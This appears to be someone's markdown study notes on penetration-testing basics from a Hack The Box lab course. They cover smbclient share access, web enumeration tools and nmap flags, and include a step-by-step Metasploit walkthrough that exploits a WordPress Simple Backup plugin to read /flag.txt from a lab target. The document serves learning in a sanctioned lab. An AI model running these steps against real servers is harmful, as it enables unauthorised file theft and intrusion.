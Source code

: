 ## SMB shares

To connect to a SMB share over a network as the user Bob
```
smbclient -U bob \\\\10.129.74.37\\users
```
To just look at the users on the network, use this command
```
smbclient -N -L \\\*ip-adress*
```

# Web Enumeration

## Se any hidden files or directories on a webserver that is not intended for public access. 

Tools: 

https://github.com/ffuf/ffuf

https://github.com/OJ/gobuster

## HTTP status codes

https://en.wikipedia.org/wiki/List_of_HTTP_status_codes

## DNS Subdomain Enumeration

Contains many useful lists for fuzzing and exploitation: https://github.com/danielmiessler/SecLists

Take screenshots of target web applications, fingerprint them, and indentify possible default credentials: https://github.com/FortyNorthSecurity/EyeWitness

## Video to help

https://www.youtube.com/watch?v=6Ekm0hXfvME

## First hack with Metasploit

Q: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)

I first open up the target in my browser to see what we are working with. I meet a webpage displaying the text "Simple Backup Plugin 2.7.10 for WordPress".

I search up "simple backup" on Metasploit to see if I get any hits on it. The rest I will show is the commands to this hack.
<br>

```
msf6 > search simple backup
```
<br>

```
msf6 > use 0
```
<br>

```
msf6 > options
```
<br>

```
msf6 > set RHOST *ip-adress
```
<br>

```
msf6 > set RPORT *port
```
<br>

*this is because the question is asking us to try and get the content of the /flag.txt
```
msf6 > set FILEPATH /flag.txt
```
<br>

```
msf6 > run
```
<br>


```
cd /home/kali/.msf4/loot
```
<br>

```
ls
```
<br>


```
cat *file that you have displayed with the ls command
```
<br>

And there you have your flag. Your first hack


## Useful nmap commands list

---

Nmap dash list

-sV = Version scan

-sC = Specify Nmap scripts

-p- = Scans all 65,535 TCP ports

-sV --script=banner = Banner grabbing

---
<br>

To learn more about nmap: https://academy.hackthebox.com/module/details/19

